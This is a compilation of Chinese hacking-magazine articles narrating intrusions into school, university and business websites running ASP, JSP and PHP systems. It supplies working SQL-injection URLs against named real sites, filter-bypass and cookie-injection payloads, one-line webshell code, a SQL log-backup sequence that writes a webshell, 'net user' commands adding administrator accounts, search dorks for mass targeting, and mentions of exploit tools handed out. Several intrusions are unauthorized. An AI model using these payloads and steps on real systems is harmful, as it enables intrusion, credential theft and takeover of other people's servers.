深度网址导航的这个上传漏洞非常低级，但危害却很大，存在这个漏洞的网站在几秒钟内就可以被人拿到 webshell。在百度上搜索“Copyright 2006-2009 深度开发”“inurl:urlProblem.asp”等就可以找到可能存在这个漏洞的网站。为了让叉子们体验一下本机拿 webshell 的乐趣，我把存在漏洞的源代码文件深度学习(asp)网址导航系统 v3.1.2.rar 打包提供给大家了。


当然，也可以通过 URL 自定义 `SavePath`、`FileType` 等设置，比如提交 `http://127.0.0.1/admin/include/upload_form.asp?SavePath=../../uploadFile/friendLink/&parentBackValue=form1.LogoUrl&MaxSize=500&FileType=asp/jpg/png/bmp`，就可以把 shell 上传到 `uploadFile/friendLink/` 目录下。如果上传后的文件提示为 `../../uploadFile/friendLink/2010030264919265.asp`，那么 webshell 的地址就为 `http://127.0.0.1/uploadFile/friendLink/2010030264919265.asp`，如图4、图5。

（文章中涉及到的深度学习(asp)网址导航系统 v3.1.2，已经收录在了光盘中）

## 巧妙构造 拿到网站 webshell

一日，受同学之邀，要求检测一下他以前的高中学校的网站，这是小菜我的最爱，怎能拒绝，于是也就有了下文。打开他学校的网站，随便找个链接地址试了一下，发现有注入漏洞，不会这么简单吧。把注入点放到啊D中跑了半天也没有跑出表段，刚开始还以为是表段名比较特殊，后来手工注入了一下，却发现了一个奇怪的现象：在注入点后面输入 `and exists (select * from admin)`，却出现了如图1所示的情况。

再把表替换成 admin1，就报错了，如图2。以前没有见过这种情况，不知道怎么解决了。使用啊D扫描了一下后台，结果扫描到了一个 `forum.asp` 文件，打开后如图3所示，原来安装了一流信息拦截系统，怪不得会出现上面的情况呢。

要想绕过一流信息拦截系统，只要在被过滤的关键字中间加入一个“%”，就可以绕过拦截了。再次在注入点后面输入 `an%d exis%ts (selec%t * fro%m admin)`，提交后页面返回了正常，接着开始手工注入，使用“order by”语句猜出当前表字段为6，接着输入 `an%d 1=2 unio%n selec%t 1,2,3,4,5,6 fro%m admin`，结果却出错了，把“%”去掉却提示在联合查询中所选定的两个数据表或查询中的列数不匹配，如图4。


```vb
sub detail()
  dim TeacherID
  dim rs
  dim ErrMsg
  TeacherID=Request("id")
  Set rs=conn.execute("Select * from teacher where id="&TeacherID)
  if rs.eof or rs.bof Then
    ErrMsg=ErrMsg+"<br>"+"<li>非法操作，该教师的信息不存在"
    Call Error("Critical",ErrMsg)
  Else
    ' ... 省略代码
  End if
End sub
```

```vb
Set rs=Nothing
End Sub
```

漏洞就在这个 detail() 子程序里，变量 TeacherID 接收到的 id 值没有经过过滤就代入数据库操作，导致了漏洞的产生。文中通过 `order by` 判断字段数，并使用 `and 1=2 union select ... from admin` 等语句猜解账号口令。

作者描述了从前台入口到后台登录的利用过程：先发现同学录系统版本与已知系统相似，再在“查看/添加”教师等功能点测试注入。通过报错与回显逐步确定可利用参数，并对教师详细页进行注入尝试。

在 URL `.../class/TeacherList.asp?Action=ViewDetail&ID=20` 后追加单引号触发报错，结合源码定位到 `teachlist.asp` 中的关键代码，确认 `Request("id")` 未过滤，形成可注入点。


随后尝试拿 webshell。文中提到后台可利用点较少、数据库为 ASP 后缀并做了处理，导致部分写入语句难以直接解析；上传点也未发现明显漏洞，因此未直接获得 webshell。


# 一个人的战争

shell岂不是很没面子，只好硬着头皮接着找，试试最新的文件解析漏洞行不行。在班级相册里随便上传一个图片，发现图片被重命名为了2010291939373878.gif，这样上传类似1.asp;.jpg这样的图片就无效了。再来看后台，发现后台可以更改图片上传的目录，如图12。把upload改为upload.asp，再到前台上传图片，结果如图13所示，提示保存路径的目录不存在。看来上传文件里没有“如果检测不到上传目录就自动创建”的代码，这样就不能利用文件夹解析漏洞了。

我停下来想了一会儿，真的就不能利用最新的文件解析漏洞了吗？虽然不能直接上传类似于1.asp;.jpg这样的文件，但是却可以构造这样的文件啊。如果把上传目录改为“upload/1.asp;”，再在前台上传一个图片，图片的地址会不会变成“upload/1.asp;2010291939373878.gif”这样呢？我马上在后台试验，修改上传目录为“upload/1.asp;”，如图14。再到前台上传一个图片，查看图片地址，确实构造成功了，如图15。

这样就好了，我马上把一句话木马插入到图片里上传上去，然后使用一句话木马客户端进行连接，但是却没有出现大马的界面，怎么回事呢？我在本地测试了一下，发现是图片的代码太多了，一句话木马没有被解析。把一句话木马插到文件头GIF89a的后面，如图16，重新上传，再来连接一下，终于成功连接上了，如图17。

webshell总算是拿到了，入侵就此结束。

这篇文章并没有什么新的技术，只是把学到的知识灵活运用了而已，希望这篇文章能对大家有所帮助。


> （文章中涉及到的啊D注入工具，已经收录在了光盘中）


## 清凉长风

### 一、初探

闲着没事到处瞎逛，一朋友发过来一个网站，是某某信息网“http://www.lzzfw.net/”，叫我帮着检查一下其安全性如何，于是我就打开了目标网站，其首页界面如图1所示，网站采用的是ASP脚本……

……最后看到一个网站（http://www.lychengchong.cn/）使用的CMS主页的头部和版权信息区很熟悉，主页最底部有个“管理登录”，点进去一看，原来是KesionCMS系统，如图3……

### 二、无奈之选

旁注也许是此时最好的选择了，找到114best上查询了一下同服务器上的网站信息，如图2，但是很多网站都打不开……


图2


图3

### 三、KesionCMS漏洞分析

我马上到网上搜索了一下关于这个漏洞的解释，可是都很简略，许多刚入门的小菜可能还不怎么明白，并且漏洞发现者给出的EXP工具也不怎么好用，我对此进行了修改。先来看漏洞吧，我是使用KesionCMS V6.5来进行分析的，漏洞文件为user/UpFileSave.asp，这个文件为注册用户登录后在后台执行上传动作时用到的文件。首先这个文件提供了一个参数AutoReName，但是其值为3的时候，系统将不会修改上传文件的后缀，然后通过截断来绕过上传过滤，就使得我们能上传ASP等可执行文件了。这套系统对上传文件后缀的过滤比较全面，大家来看user/UpFileSave.asp文件的部分代码：

```vb
……省略

Dim KSCls

Set KSCls = New UpFileSave

KSCls.Kesion()

Set KSCls = Nothing

Const NoAllowExt = "asa|asax|ascs|ashx|asmx|asp|aspx|axd|cdx|cer|config|cs|csproj|idc|licx|rem|resources|resx|shtm|shtml|soap|stm|vb|vbproj|vsdisco|webinfo"  '不允许上传类型

Const NeedCheckFileMimeExt = "gif|jpg|jpeg|jpe|bmp|png|swf|mid|mp3|wmv|asf|avi|mpg|ram|rm|ra|rar|exe|doc|zip"  '定义需要检查是否伪造的文件类型

……省略
```

我们可以使用“%00”来截断文件名，比如文件名为“..\1.asp%00.jpg”，这个路径在检查的时候是合法的，但是真实上传的时候却因为“%00”使得.jpg被截断了。为了更形象地说明这个问题，也为了让入门的朋友更好地了解这方面的东西，我们来做个测试，大家将以下代码保存为test.ASP：

```asp
<%
if request.queryString<>"" then
    id=request.queryString("id")
    response.write "FileName:"
    response.write id
end if
%>
```

把该文件保存到IIS6.0下，访问该文件，提交“test.asp?id=1.asp%00.jpg”，看看出现了什么？本来应该出现“FileName:1.asp%00.jpg”才对，可是“%00”截断了参数id，结果成了1.asp了，如图4。我想，现在大家都明白这个截断了吧！


图4

### 四、实战

好了，对这个漏洞我已经做了一个简单的介绍。我们的利用思路就是：提交“AutoReName=3”来保留文件后缀，然后利用“%00”截断上传文件后缀过滤系统，以达到上传我们的asp木马的目的。这里不得不提的一个问题，就是从网上下载到的那个漏洞工具的作者是上传.cdx的木马，但事实上很多服务器是不解析cdx的，我自己的服务器和我在网上找的几个网站都不支持cdx文件，因此我对这个利用工具做了小小的修改，使得其上传cer格式的木马，这个修改后的EXP工具我已经打包提供给了大家。

双击打开EXP利用工具，界面如图5所示。在使用这个工具前，我们需要在目标网站上注册一个用户，然后就可以在工具的“后台”栏填入带有“http://”的目标网址，“cookie”和“确认页面”不用填写。当成功上传cer格式的Webshell后，就会在“shell”栏上显示出shell的路径。“path”栏也不用管，“帐号”和“密码”就填你注册的账户密码信息。


图5

先来判断一下我们要攻击的系统是什么版本的。现在科讯的系统以6.5和6.0为多，填好上述信息后点“验证码”，然后就会出现验证码，在“验证码”一栏中输入出现的验证码并点击“登录”。我们可以通过右边的文本框中返回的信息来判断登录成功没有，登录成功后就点击“上传”，程序会将同目录下的kesion.txt作为Webshell传上去。这个文件其实是一个一句话木马，当然我们也可以修改成自己的asp木马。如图6所示，cer后缀的木马上传成功了，Webshell的路径已经出现在了“shell”一栏上。我们使用海阳的一句话木马客户端进行连接。我的chrome和IE8总是和一句话木马不兼容，还是使用IE6吧。如图7，Webshell就这样顺利地拿到了。


图6


图7


图8

### 五、提权，拿下目标网站

上传了ASPX木马后发现可以运行，看起来服务器安全性并不高。我开始尝试各种提权漏洞，还是Taken Kidnapping好用，这个比较老了，利用方法不会的可以到Google上搜索一下，或是翻看X以前的文章，这里就不截图演示了。由于服务器没有开启3389，我就在www.lzzfw.net根目录下写了个OK.ASP，如图8。

### 六、总结

本文通过入侵一个网站来介绍了KesionCMS最新的0DAY漏洞，希望大家可以学到一些新东西。如果需要了解更多关于上传截断漏洞的资料，我们可以到网上搜索一下。当然如果你对此足够了解的话，也完全可以直接写一个EXP出来。

> （文章中涉及到的kesion65exp漏洞利用工具已经收录在了光盘中）

## 反情感删XX大学网站

很多朋友都入侵过大学的网站，但可惜的是，我至今还没有成功入侵过。于是这天我就找了一个jsp的大学网站准备好好地大干一场，手工检测出该网站存在注入漏洞，地址为“http://xxxxx.edu.cn/jrxynew/xsyd/news.jsp?id=1582”。先别急着考虑注入，直接在网址后面分别添加8080和8888端口进行访问，但都返回了空白页面，没有出现Tomcat的后台页面，看来自管理员把Tomcat后台删除了，如图1。

在网址后面添加upload.jsp，也没有出现上传的页面。重新返回到网站主页，刚才竟然没有注意到在网站右下角有管理员登录的地方，如图2。直接点击进去后，试着使用“'or'='or'”登录失败了。还是来爆破一下密码吧，在注入点后面添加“order by 6”提交，返回了正常；添加“order by 7”提交，返回了错误，可以确定字段数为7。继续判断数据库版本，在注入点后面添加“%20and%20@@version>0”提交，可以看到服务器使用的是SQLServer2000数据库，如图3。


图1


SQLServer2000的数据库不支持union select查询，暂时先不考虑走爆破密码这条路了。直接把注入点地址啊D检测下有什么权限，居然显示是个SA权限，如图4。既然是sa权限那就好办多了，如果3389是开放的，直接添加账户就可以了，当然前提是xp_cmdshell没有被删除。


还是先弄个webshell到服务器上吧。使用啊D列了N分钟目录，终于找到了web的绝对路径为“x:\Tomcat 6.0\webapps\jrxynew\xsyd”。我本想使用echo命令直接写一个jsp一句话木马进去，但是写入失败。后来备份jsp时出现乱码，后缀txt也乱码，如图5。


我始终搞不清到底是什么原因，还希望知道原因的大牛能够指点一下。在SA权限下还可以使用jsp_makewebtask存储过程来上传一个jsp一句话木马，我就不手工操作了，直接使用穿山甲来上传吧，如图6。这次终于上传成功了，一句话木马大家都会用吧，我就不截图了。使用jsp一句话木马的客户端成功连接上了，然后我又上传了一个jsp大马，如图7。

啊，最近怎么总是遇见内网的啊，内网可以使用lcx把3389转发出来，然后再连接就可以了。在webshell里执行“netstat -a”命令查看了下端口，发现3389开启了，如图9。


在webshell里执行ipconfig命令，成功了，服务器原来是在内网中的，使用的居然还是Windows2000系统呢，如图8。

看看能不能添加账户，分别执行“net user fei 123456 /add”和“net localgroup Administrators fei /add”，添加用户成功了，如图10。看来这个网站已经有前人来过了，这么多的不明账户呀。由于我电脑也是处在内网中，而且也没有路由器的权限，就不转发端口了，到此整个入侵就结束了。


（文章中涉及到的pangolin3.0专业破解版、jsp一句话木马等，已经收录在了光盘中）

## 从分析ShopXp v8注入0Day到编写漏洞利用工具

好久没有上网关注最新的信息了，这天正好没事，就到各大论坛潜水。话说某坛子里有人发布了ShopXp v8存在注入漏洞，于是我就到chinaz.com下载了一套ShopXp正式版V8.0的系统。

另外，这套系统的数据库位于shopxp\shopxp.mdb，没有做任何的防下载处理，通往数据库的大门直接就向我们敞开了。这些细节就留给大家慢慢去琢磨吧。接下来请出我们今天的主角——漏洞文件，也就是根目录下的xplistpl.asp，其关键代码如下。

### 一、华山有路

ShopXp这套商城系统就不需要我多做介绍了吧，比较有名，使用量也挺大的。对于整站情况我简单地介绍一下：其构架为ASP+Access数据库，可以生成DIV+CSS的纯静态Html页面。大家先来看看这套系统的原始面貌吧，如图1。


图1

数据库文件是位于根目录下的conn_xp文件夹中的xp.asp，同目录下的另一个文件shopxp.asp是具有数据库查询、过滤（功能函数为HTMLEncode）、防注（功能函数为checkStr）、变量类型检查（功能函数为isInteger）等功能的被包含文件。这里我特意贴出防注函数的代码：

```vb
' Rem 过滤SQL非法字符
function checkStr(str)
    if isnull(str) then
        checkStr=""
        exit function
    end if
    checkStr=replace(str,"'","")
end function
```

很显然只过滤了引号，这个防注是否过于简单了呢？当然不是，毕竟作者也不是新手。我们看根目录下的ckeckSQL.asp就会明白了，还过滤不少的关键词，而且也堵住了转换大小写来绕过防注这条路。我发现系统防注主要是过滤request的数据，对于cookie数据处理的代码还没有看到，这可是个不小的安全隐患。

```asp
……省略无用代码
</head>
<body leftmargin="0" topmargin="0" marginwidth="0" marginheight="0">
<!--#include file="xptop.asp"-->
<table width="100%" border="0" cellspacing="0" cellpadding="0">
<tr>
<td width="88%"><TABLE cellSpacing=0 cellPadding=0 width=100% align=center border=0>
<TBODY>
<TR>
<td width="1" background="img_shopxp/xiao/bgbg.gif"></td>
<TD class=b vAlign=top align=left>
<%if IsNumeric(request.QueryString("id"))=False then
response.write("<script>alert('非法访问!');location.href='index.asp'</script>")
response.end
end if

dim id
id=request.QueryString("id")
if not isinteger(id) then
response.write("<script>alert('非法访问!');location.href='index.asp'</script>")
end if%>
...
set rs=server.createobject("adodb.recordset")
```

### 二、勤为径

```asp
rs.open "select * from shopxp_product where shopxpptid="&request("id"),conn,1,3
if rs.recordcount>0 then
  spmx=rs("shopxpptname")
end if

……省略无用代码
```

从上面的代码中我们能知道些什么？我们按顺序来，大部分都是HTML。在第一个“非法访问”的上面一行，系统检测了参数id是否为数字，如果不是就让script脚本返回到首页文件index.asp上；第二个“非法访问”的性质也差不多，只不过检测了id是否为整型。看到这个，其实我的第一反应就是感觉检测得有点太直接了，为什么不直接使用ASP代码来检测然后再决定是否返回HTML，而是采用返回的HTML中的脚本来检验呢？

正是由于这种看似“很好”的处理方式导致了疏忽。那么漏洞又在哪里呢？我们都知道，在访问一个ASP文件的时候，这个ASP文件会完全执行，就像上面这段代码一样，数据库查询的语句无论id为何值的时候都是执行了的。不信，我们来做个实验，将以下代码：

```asp
<%
if IsNumeric(request.QueryString("id"))=False then
  response.write("<script>alert('非法访问');location.href='index.asp'</script>")
  response.end
end if
response.write("如果你看到这句话就说明这个ASP文件执行完毕了")
%>
```


放到ASP服务器上执行一下，我们就会发现页面最终显示了“如果你看到这句话就说明这个ASP文件执行完毕了”，如图2。这里过分简单的检查起到的作用并不理想，不知道是不是我们的运气比较好。

所以上面说到不让返回的脚本在本地执行，我们具体来看看怎么做。首先，我们随便打开一个商品的评论，使我们访问到漏洞文件xplistpl.asp。因为后台管理员的信息是存放在shopxp_admin表中，所以我们构造cookies注入代码：`javascript:alert(document.cookie="id=" + escape("1 union select 1,cstr(adminid)&chr(124)&admin&chr(124)&password,1,1,1,1,1,1,1,1,1,11,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1 from shopxp_admin"))`，如图3。然后，我们来关闭浏览器的脚本执行，以我的IE8为例（IE都通用的），打开Internet选项→“安全”→“自定义级别”，找到“脚本”，禁用“Java小脚本”和“活动脚本”即可，如图4。禁用之后我们直接访问xplistpl.asp文件，提交“http://192.168.23.129:8000/shopxp/xplistpl.asp”，如图5，结果直接爆出了admin的信息。


所以我们可以通过注入语句来查询admin的密码，但是问题又来了：返回的页面中虽然包含了我们查询得到的admin密码，但是也有HTML的脚本做了id检查，它会把我们带到index.asp这个文件上，这样就使得我们看不到admin的密码信息，这该怎么办呢？解决的方法是有的，如果我们会编程，那么可以很容易地解决这个问题——直接访问ASP并获取返回源码结果，这样就没有执行HTML这一步，脚本就不能执行了。那么在没有其他工具和编程能力的情况下又该怎么利用呢？方法就是不让我们的浏览器执行脚本呀！


### 三、直捣黄龙

现在我简单地说一下如何在后台拿 Webshell。这个后台的功能很完善也很强大，有很多上传图片的地方，而且都可以上传改了后缀的 ASP 木马文件。当然，我们必须得把后缀改回来才行。后台的“数据库管理”－“数据库备份”功能确实很实用，如图6。我这里就不多做介绍了，在《X》上曾经介绍过 N 遍，新手们到 Google 上搜索一下就知道了，我就不老生常谈了。

### 四、总结

这个系统的漏洞很蹊跷，马虎大意肯定发现不了。至于漏洞的利用也别有新意，拿 Webshell 部分没什么可说的。从题目看，我本该介绍一下这个漏洞利用工具的编写，但是觉得太简单了，就使用国产易语言编写了一个，源码也一并打包提供给大家。


**图6**

> （文章中涉及到的 ShopXp v8 注入 0Day 利用程序以及源代码，已经收录在了光盘中）

## ShopXp v7.4 SQL注入0day

清风长风

在网上看到 ShopXp v7.4 新公布了一个安全漏洞，记得前不久才刚出了 v8 版本的注入漏洞，想不到才没过去几天 v7.4 版本也出了漏洞。于是我便下载了一套回来决定研究一下，在此就把关于该漏洞的简单分析以及利用过程写出来与大家分享。先简单说一下这套系统吧，ShopXp 是一套定位于电子商务类型、功能强大的网上购物系统，采用了 ASP+ACCESS 架构，在网上的使用量还是非常大的。

```html
End If
Response.Write Content
End If
%>
</body>
</html>
```

### 一、源码简单看

其它的就不多说了，解压下载回来的源码包，直接找到漏洞文件——也就是根目录下的 TEXTBOX2.ASP。打开之后发现代码很少，我把大部分代码贴了出来：

```asp
<head>
<body leftmargin='0' topmargin='0' ...>
<% session(content)=... %>
Action=LCase(Request.QueryString("Action"))
newsID=Request.QueryString("newsID")
If request("action")="modify" Then
  set rs=server.createobject("adodb.recordset")
  sql="select * from shopxp_news where newsid=" & newsid
  rs.open sql,conn,1,1
  If Not rs.Eof Then
    Content=rs("newscontent")
  End If
End If
```

其实上面的代码很简单，会点 ASP 和懂点注入的人都知道这里的漏洞原型。通过 Request 方式获取的 String 类型变量 newsID 并没有进行任何过滤，在 action 参数为 modify 的时候直接就将 newsID 带入了 SQL 查询。本来在这套程序根目录下有一个比较不错的 SQL 防注入文件 checkSQL.asp，如图1所示，而且在很多文件中也都包含了这个文件，但是令人遗憾的是，TEXTBOX2.ASP 文件却偏偏没有将其包含进来，也许是程序员的疏忽吧。这个漏洞很简单，也就不需要再多说了。


**图1**

### 二、漏洞利用方法

我们知道这个 SQL 注入漏洞可以通过查询得到管理员的密码。在利用之前我们先看看这个 SQL 注入语句应该怎么写。通过查看 Access 数据库的结构，发现数据库文件位于 shopxp 目录下的 shopxp.mdb，使用 Access 打开后查看，如图2所示。那么我们就可以构造注入语句：

“http://www.xxx.com/TEXTBOX2.ASP?action=modify&news%69d=122%20and%201=2%20union%20select%201,2,admin%2bpassword,4,5,6,7%20from%20shopxp_admin”。


图2

另外我再推荐一个搜索关键字：“首页 我的购物车 搜索 我的账户 在线支付 关于我们 繁体中文”，搜索出来的结果差不了多少。我们随手选择一个目标“http://www.18u8.com/”，构造的注入语句就是：

“http://www.18u8.com/TEXTBOX2.ASP?action=modify&news%69d=122%20and%201=2%20union%20select%201,2,admin%2bpassword,4,5,6,7%20from%20shopxp_admin”。

在浏览器中提交后，如图3所示，爆出了管理员的账户（admin）以及密码（e8b68e728f435b55，MD5 加密）。


图3

### 三、批量拿站

万事俱备了，现在就是时候使用 Google 寻找目标了，可以使用网上提供的关键字“inurl:shopxp_news.asp”进行搜索，另外我再推荐一个“首页 我的购物车 搜索 我的账户 在线支付 关于我们 繁体中文”...

### 四、关于拿Webshell

如果你人品足够好，能够破解出 MD5 密码，登录进入网站后台，那么接下来就该是拿 Webshell 了。相信大家应该在上期杂志中看过我写的那篇“从分析 ShopXp v8 注入 0Day 到编写漏洞利用工具”吧，ShopXp v7.4 的后台拿 Webshell 的方法和 ShopXp v8 的一样，这里我就不多说了，大家翻一翻上期的《X档案》重新温习一下就知道该怎么做了。

## 又见W78cms SQL注入0day漏洞

txcbg

W78cms 是使用 ASP+ACCESS 开发的一套系统，所有页面采用了 UTF-8 全球通用编码，兼容简体中文、繁体中文以及英语，适用于中小企业网站使用。在去年第12期的杂志中我曾经给大家介绍了 W78cms 存在的一个后台文件验证漏洞。今年的3月18日程序更新到了 v1.1 版本，但是第二天我就在顶级精子的 Blog 上看到他发现了新版 W78cms 的一个 0day 注入漏洞。

点击“公司简介”，打开的地址为“http://127.0.0.1/about.asp?id=2”，在后面添加一个“'”，提交后报错了，看来果然存在注入漏洞，如图2。通过查看数据库，发现 about 表的字段数为 6，因此我们在浏览器中提交“http://127.0.0.1/about.asp?id=2 and 1=2 union select 1,2,3,4,5,6 from admin”，结果...

顶级精子说在好几个文件中都存在 SQL 注入漏洞，比如程序根目录下的 about.asp 文件，存在漏洞的关键代码为：

```asp
exec="select * from [about] where id=" & request("id")
set rs=server.createobject("adodb.recordset")
rs.open exec,conn,1,1
```

可以看到变量 id 的值没有经过任何过滤就带入了数据库查询，也就导致了注入漏洞的产生。程序根目录下的 shopmore.asp 和 search_news.asp 文件也存在类似的注入漏洞，这里就不一一介绍了。下面我们来看看如何利用这个漏洞来写 Webshell。

为了方便，我就在虚拟机里演示拿 Webshell 的过程了。从网上下载了 w78 企业网站管理系统（简体中文单语版）v1.1 的源码，在虚拟机的 Windows 2003 系统中使用 IIS6.0 把程序运行了起来，访问地址为 http://127.0.0.1/，网站首页如图1所示。


图1

# 一个人的战争

如图3所示。


发现 2 和 4 处可以用来显示信息，下面就直接给出爆管理员用户名和密码的方法。在浏览器中提交：

“http://127.0.0.1/about.asp?id=2 and 1=2 union select 1,admin,3,password,5,6 from admin”，

就成功地爆出了用户名 admin 以及密码 21232f297a57a5a743894a0e4a801fc3，如图4。密码是经过 MD5 加密的，可以拿到 cmd5.com 等在线破解网站上进行破解，如果破解出密码的话就可以登录进入网站后台了。


我破解出来的密码为 admin。W78cms 的默认后台目录为 admin，因此在浏览器中直接访问“http://127.0.0.1/admin/”就打开了后台登录页面，使用得到的用户名和密码成功进入了后台，如图5。

进入后台就该考虑怎么得到 Webshell 了。后台有备份数据库功能，我准备通过备份数据库的方法来获得 Webshell。把一句话代码“<%eval request("x")%>”保存到一个文本文件里，然后把文件重命名为 123.jpg，点击后台“新闻管理”下的“添加新闻”，发现使用的编辑器为 eWebEditor，把 123.jpg 传上去，如图6。


文件传上去后点击“代码”按钮，发现文件传上去后保存的相对路径为“/uploadfile/20100331115037815.jpg”。我们点击“备份数据库”来进行备份操作，当前数据库路径就写“/uploadfile/20100331115037815.jpg”，备份数据库名称就写 x.asp，如图7。


点击“确定备份”按钮来进行备份，但这样备份出来的文件名为 x.asp.mdb，不能利用。大家先别着急，我们再来备份一次，当前数据库路径还是填写“/uploadfile/20100331115037815.jpg”，备份数据库名称还是 x.asp，点击“确定备份”，这样就备份出 x.asp 了，如图8。x.asp 的完整访问地址为“http://127.0.0.1/admin/Databackup/x.asp”，使用 lake2 的 eval 最小马发送端进行连接，成功获得了 Webshell，如图9。


当然，拿 Webshell 的方法不止这一种，我们还可以通过 eWebEditor 来拿 Webshell，具体的方法在去年12期杂志的那篇文章中已经介绍得非常详细了，这里就不再重复。我们搜索“inurl:ShopMore.asp?id=”等就会找到可能存在这个漏洞的网站；在玩 Webshell 的时候千万不要搞破坏，建议大家在本机测试这个漏洞。为了方便大家的测试，我把存在漏洞的源码“w78企业网站管理系统（简体中文增强版）v1.1.RAR”也提供给大家了。

（文章中涉及到的 w78 企业网站管理系统（简体中文增强版）v1.1.RAR，已经收录到了光盘中）


## 二、浅析提权注入的安全检测


“'”，提交后报错了，看来运气还算不错，如图1。把注入点放到啊D里跑了一下，跑出了表段名，却没能跑出一个字段名，不知道是管理员把字段名改了，还是字段名太特殊了。我又回到网站上随便看了看，在一个图片属性里发现了 eWebEditor，如图2。哈哈，这下就简单了，访问 eWebEditor 的登录界面，却返回了 404 错误，看来是登录页面被删除了；再试试默认的数据库，还好没有更改，成功下载了回来，如图3。

打开数据库看看有没有前人留下的痕迹，果然发现上传样式被添加了 asa 格式，如图4。直接调用这个样式，格式为“www.xxx.com/admin/ewebeditor/ewebeditor.asp?id=s_id&style=s_name”，s_id 和 s_name 相应地修改一下就行了。点击上传图片，选择一个 asa 木马，成功上传了，如图5。

最近同学新建了一个论坛，于是小菜我就对他的网站所用的虚拟主机进行了一次安全检测。因为他的论坛使用的是最新版的 Discuz! 7.2，网上也没有爆出什么严重漏洞，所以我只好使用旁注了。打开 www.114best.com 反查了一下域名，发现在服务器上有十几个站点。我随手选择了一个企业网站，打开后发现是 ASP 站点，随便找了一个链接，在后面加了一个“'”……


说干就干，我随便找了一个网站，查找 eWebEditor，果然存在。下载默认数据库，发现这些数据库被添加 asa 样式的地方也一模一样，不知道是被人批量入侵了，还是这个系统本身就被人放了后门。再次调用样式，上传 asa 大马，这次终于成功上传，进入了 Webshell，下载主站数据库，终于找到了字段是 a_name 和 a_pass，如图8。

把字段添加到啊D的字典里，重新检测刚才的企业站，终于跑出了用户名和密码。登录进入后台，却发现后台非常简陋，没有什么可以利用的地方。没办法，只好放弃这个站点。我又重新找了同服务器上的另外几个站点，结果在一个站点页面下方发现了版权信息，原来使用的是 wrmps v6.5 系统，如图9。我到网上把这个系统下载了回来，在这个网站上测试默认数据库，发现并没有修改，成功下载到了数据库。打开寻找管理员密码，却没有找到。我把它与从官网下载到的系统数据库进行对比，发现少了管理员表和用户表，真是晕啊，居然还有这样的管理员！

但是访问大马时，却又是 404 错误，难道没有传上去吗？我又试了几次，还是相同的结果，有可能是管理员把上传目录设置了。eWebEditor 没办法利用了，我只好再次回到网站上瞎转着。当看到留言页面的时候，发现出现了版权信息，如图6。网页标题是“一南科技留言本”，我马上在百度上进行了搜索，发现有很多网站都使用了这个留言本，如图7。打开这些页面，发现网站样式都差不多，看来这些网站使用的系统都是一样的。刚才不是找到了一个注入点不能跑出字段吗？那我们拿下这些网站其中一个，找到数据库，不就知道字段名了吗？


# 一个人的战争


我们网站上注册了一个用户，发现可以成功登录，看来网站没有问题。那么管理员把真的数据库藏到哪里了呢？想来想去，我到网上搜索了一下 wrmps 系统的漏洞，发现牛人们早已经找到了漏洞，这个系统存在注册列表漏洞和 cookies 欺骗到后台的漏洞。


我测试 cookies 欺骗漏洞，没有成功；又试了试列目录漏洞，注册一个用户登录，然后将网址改为“www.xxx.com/Plus/Upload/uploadfile.asp?Type=1&User=1&dir=../../../../admin”，成功列出了 admin 目录下的文件，如图10所示。


再在后面添加“/..”跳到上层目录，发现根目录下竟然有 wwwroot.rar 文件。既然有网站备份文件，那就不客气了，立马下载回来。解压后找了一会儿，发现了 MSSQL 的连接文件，找到连接用户名和密码，而且还发现连接 IP 就是服务器本机 IP。打开查询分析器，使用得到的用户名和密码成功连接上了，先来看看是什么权限。


在查询窗口中输入 `select IS_SRVROLEMEMBER('sysadmin')`，返回了 0，看来不是 sa 权限，如图11。再输入 `select IS_MEMBER('db_owner')`，返回了 1，看来是 dbo 权限，如图12。再使用 sqltools 连接上，试试列目录，发现竟然可以列全盘目录，如图13。接下来就是寻找同学网站目录了，花了很长时间终于在 D 盘下找到了网站目录。

```sql
alter database 当前库名 set RECOVERY FULL--
create table test (a image)--
backup log 当前库名 to disk='c:\windows\cmd' with init--
insert into test (a) values('<%execute request("c")%>')--
backup log 当前库名 to disk='d:\web\xxx\23.asp'--
drop table test--
```

成功备份了一个一句话木马，如图14。使用客户端连接后，又上传了一个大马，访问的时候却出错了。这才想起来，这个目录是 PHP 的目录，应该上传 PHP 木马。又重新上传了一个 PHP 木马，终于拿到了 Webshell，如图15。


接下来我们可以通过备份脚本到启动项来拿到系统权限，但是我在连接 3389 的时候却总是出现“由于协议错误，会话将被中断，请重新连接到远程计算机”的错误，到网上搜索也没有找到什么好的解决方法，所以就没有再继续入侵。

本文并没有什么技术含量，只是由于服务器的安全配置出了问题，才让我轻松拿到了 Webshell。这台虚拟主机在安全方面做得确实不怎么样。

（文章中涉及到的啊D注入工具、SQL查询分析器分离版本、sqltools，已经收录在了光盘中）

## 菜鸟入侵记

作者：阿文


废话无需多说，我们开门见山直接进入主题，打开网站“http://news.XXX.org.cn/”，感觉网站内容非常丰富，排版布局也清晰美观，不过漂亮归漂亮，就是不知道安全性做得怎么样！随便打开一个新闻，在新闻网址后面加了个单引号提交“http://news.XXX.org.cn/view_news.php?id=1515'”，结果报错了，如图1。


接下来利用经典的“and 1=1”以及“and 1=2”进行提交，返回了不同的界面，呵呵，出现漏洞了。只不过服务器不是 Windows 操作系统，这让我有些失望，因为我对 UNIX/Linux 系统基本属于一片空白。不过有漏洞，也不能就这样轻易放过啊！


先来使用注入工具，如果工具不行，我们再搬手工的方法。我把注入漏洞的链接地址放到了“冰兰 PHP+MYSQL 注入器”里进行检测，成功检测出了漏洞，如图2。尝试读取刚才暴出来的“/usr/net/www/XXX/view_news.php”文件，成功读取出来了，如图3。

很好，权限还可以，找到网站后台（直接添加一个 admin，后台就出现了）。查看其源代码，发现后台验证文件为 checklogin.php。用路径“/usr/net/www/admin/checklogin.php”进行查看，读取失败了。经过多次尝试，原来网站根目录不是“/usr/net/www/”，而是“/usr/net/www/XXX/”，于是替换成路径“/usr/net/www/XXX/admin/checklogin.php”，成功读取出了 checklogin.php 文件，关键代码如下：

```php
set_block("index","newss","new");
$query="SELECT id,yonghuname FROM yonghu WHERE yonghuname='$yonghu' and password='$password'";
$mysql_result = mysql_query($query,$mysql_link);
$total=mysql_num_rows($mysql_result);
if($total==1){
  $row=mysql_fetch_row($mysql_result);
  $dengluid=$row[0];
  $dengluname=$row[1];
  $_SESSION['denglu_id'] = $dengluid;
  $_SESSION['denglu_name'] = $dengluname;
}
```

